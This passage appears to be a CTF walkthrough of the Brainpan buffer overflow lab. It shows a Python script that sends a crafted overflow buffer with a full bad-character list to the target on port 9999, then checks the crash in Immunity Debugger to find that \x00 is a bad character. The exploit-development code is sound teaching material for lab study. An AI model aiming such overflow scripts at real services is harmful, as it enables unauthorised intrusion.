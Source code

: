 Ive updated the script with the bad character list.

{% highlight python %}
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

filler = "A" * 524
EIP = "B" * 4
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + badchars

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
{% endhighlight %}

I ran the script again and checked Immunity Debugger.

![dump](/assets/images/brainpan/dump.png)

To check for any issues I right clicked on ESP and selected 'Follow in Dump'. 

![badchar](/assets/images/brainpan/badchar.png)

From the output I can see my offset of C's which is 43 43 43 43 then the null byte 00 but instead of 01 I see FB, thats not what I expected which highlights that \x00 is a bad character. I update my script removing /x00 from the bad chars list and run it again.
